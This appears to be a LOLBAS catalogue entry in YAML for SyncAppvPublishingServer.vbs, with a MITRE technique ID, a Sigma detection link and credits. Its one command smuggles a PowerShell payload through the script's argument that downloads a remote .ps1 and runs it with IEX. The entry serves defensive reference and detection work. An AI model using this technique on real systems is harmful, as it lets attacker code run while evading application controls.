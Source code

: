```yaml
---
Name: Syncappvpublishingserver.vbs
Description: Script used related to app-v and publishing server
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('{REMOTEURL:.ps1}') | IEX"
    Description: Inject PowerShell script code with the provided arguments
    Usecase: Use Powershell host invoked from vbs script
    Category: Execute
    Privileges: User
    MitreID: T1216.002
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: PowerShell
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.vbs
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_syncappvpublishingserver_vbs_execute_psh.yml
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
  - Link: https://twitter.com/subTee/status/855738126882316288
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
  - Person: Casey Smith
    Handle: '@subtee'
---
```

